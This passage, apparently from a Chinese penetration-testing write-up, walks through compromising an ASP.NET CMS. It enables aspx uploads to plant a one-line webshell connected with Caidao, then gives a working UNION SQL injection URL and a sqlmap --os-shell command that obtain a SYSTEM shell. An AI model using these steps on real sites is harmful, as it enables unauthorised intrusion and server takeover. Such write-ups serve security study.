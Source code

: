 如果在执行 exp 脚本的时候出现以下情况，则需要安装 python Crypto.Cipher 加密包

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qwLFsguQc4LRFOp9fP8bsoOx45W8ZOh3IAIrjrKssmWs8AHPk7OAp6A/640?wx_fmt=png)

安装加密包

```
pip install pycryptodome
```

**利用文件上传漏洞获取 shell**

进入后台后发现控制面板 > 系统参数设置 > 上传处可修改上传文件允许格式，在里面加入 aspx 格式

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2q8qPLEx9kb1M9LB3Uqwg0EqWk1BkJVFiaFBYkw0cpslmKadIaVY9sYsw/640?wx_fmt=png)

在插件管理 > 广告系统 > 添加广告处可上传文件

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qHI90o0hepe05n2bXwudtjsxibSp1ohzPtic24VCZ6JfOKiabPRXjhKKCQ/640?wx_fmt=png)

尝试上传 aspx 一句话脚本发现成功上传

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qw8KablrjM2xJAzqe0G5oEkyYhvQaIbhDzgg5EuVonVvOVVP1Ky0sicQ/640?wx_fmt=png)

并返回上传后的文件路径

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qGANx3Ug5g8BEJbrAicJp5oqkzaogQTDzZaAgcwFhP8icBZ7lBQEC2vcg/640?wx_fmt=png)

利用菜刀成功连接到上传的 aspx 一句话脚本，但是发现权限不是 system 权限

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qYwyF6WdiazZwswASqykNibVYib4iaMAiczs02z3d96xiboJ7rrso2WCq0OBQ/640?wx_fmt=png)

**尝试利用 sqlmap 获取交互 shell**

将上面发现的注入点放进 sqlmap 跑一下

```
http://www.test.com/user/City_ajax.aspx?CityId=1%27%20union%20all%20select%20UserNum,UserNum%20from%20dbo.fs_sys_User%20where%20UserName=%27admin
```

利用 sqlmap 获得交互 shell

```
sqlmap.py -u"http://www.test.com/user/City_ajax.aspx?CityId=1%27%20union%20all%20select%20UserNum,UserNum%20from%20dbo.fs_sys_User%20where%20User --os-shell
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qLT6zPhuNr1tHhDStqfghLZZwutw3ZYUcM5rDkHBphQOQ4d2l9eC38g/640?wx_fmt=png)

成功获得交互 shell 并且是 system 权限

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qrLAW4EdSOBTaiaVZkLtAJKunyUdJic0ynNYvmPFjGOfbiaob9qOmSsyyQ/640?wx_fmt=png)

利用 sqlmap 尝试写入一句话木马（补充：注意转义问题）

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2q0nQSY6lQlmchHAibVNc7xjoEKDenC8tx3PmOGpDg5pwfNhic1z5a92DA/640?wx_fmt=png)
